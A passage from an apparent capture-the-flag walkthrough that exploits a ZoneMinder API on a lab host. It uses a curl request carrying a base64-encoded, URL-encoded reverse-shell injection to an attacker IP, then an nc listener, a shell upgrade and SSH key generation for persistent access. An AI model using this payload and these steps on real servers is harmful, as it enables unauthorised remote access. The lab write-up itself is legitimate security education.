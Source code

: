 Finally we create the request.

```shell
labadmin@labmachine:~/surveillance$ curl -XGET http://127.0.0.1:8080/api/host/daemonControl/zmdc.pl/%24%28echo%20%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC40LzYwMDEgMD4mMQo%3D%22%7Cbase64%20-d%7Cbash%29.json?token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJab25lTWluZGVyIiwiaWF0IjoxNzE0NTQ5OTU3LCJleHAiOjE3MTQ1NTcxNTcsInVzZXIiOiJhZG1pbiIsInR5cGUiOiJhY2Nlc3MifQ.dP9P6Zm9Z4fI2dWZYwPFswLKMVZ3LemjBUEqXfw6sh
```

Back to the listener and we have the reverse shell as `zoneminder`.

```shell
labadmin@labmachine:~/surveillance$ nc -lvnp 6001
Listening on 0.0.0.0 6001
Connection received on 10.10.11.245 52920
bash: cannot set terminal process group (1088): Inappropriate ioctl for device
bash: no job control in this shell
zoneminder@surveillance:/usr/share/zoneminder/www/api/app/webroot$ id
id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
zoneminder@surveillance:/usr/share/zoneminder/www/api/app/webroot$
```

And we upgrade the shell.

```shell
zoneminder@surveillance:/usr/share/zoneminder/www/api/app/webroot$  script /dev/null -c bash
<nder/www/api/app/webroot$  script /dev/null -c bash
Script started, output log file is '/dev/null'.
zoneminder@surveillance:/usr/share/zoneminder/www/api/app/webroot$
```

As last step we setup a shell over SSH.

Generate ssh key locally.

```shell
labadmin@labmachine:~/surveillance$ ssh-keygen -f ./id_ed25519 -N "" -C na
Generating public/private ed25519 key pair.
Your identification has been saved in ./id_ed25519
Your public key has been saved in ./id_ed25519.pub
The key fingerprint is:
SHA256:l+ut6oSyaz4pL4ZyN2GhEXxirgcBdmNTjgAS9HK78sw na
The key's randomart image is:
+--[ED25519 256]--+
|O* =..           |
|+ X *            |
| = B .           |
|. = o      .     |
| o + .  S o      |
|. o +  . . .     |
| + o.o. . .      |
|o X *o . . .     |
|.o E=+ .o.o..    |
+----[SHA256]-----+

labadmin@labmachine:~/surveillance$ cat id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH93lXrXAivIx0OHDfLIlgqfY+9re3meTi4rXqPaVgfK na
```
